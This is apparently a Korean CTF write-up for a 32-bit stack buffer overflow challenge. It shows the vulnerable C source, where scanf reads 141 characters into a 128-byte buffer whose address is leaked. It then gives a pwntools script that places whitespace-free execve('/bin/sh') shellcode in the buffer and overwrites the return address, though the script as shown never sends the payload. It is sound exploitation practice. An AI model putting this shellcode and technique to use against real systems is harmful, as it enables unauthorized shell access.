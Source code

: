 ## basic_exploitation_000
---

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

<br><br>

## Solution
---

처음엔 shellcraft.sh로 보내려 했는데, EOF가 떴다.

그래서 가지고 있던 셸코드로 보냈는데 이것 또한 EOF가 떴다.

확인해보니 scanf는 공백, tab 등등을 받을 수가 없는데 이러한 값들이 포함되어 있었다.

그래서 shellcode를 잘 확인해서 보내야 한다.

nop sled를 하기에는 buf의 주소가 계속 변경되고, 환경변수를 이용한 방법은 당연히 안되고 해서 그냥 셸코드를 넣고 리턴 주소를 버퍼 변수의 주소로 해주면 된다.

<br>

```python
from pwn import *

p = process('./basic_exploitation_000')

shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"

p.recvuntil('buf = (')
buf_addr = int(p.recv(10),16)
p.recvuntil('\n')

payload = shellcode + b"A"*(0x80-len(shellcode)) + b"BBBB" + p32(buf_addr)

p.interactive()
```
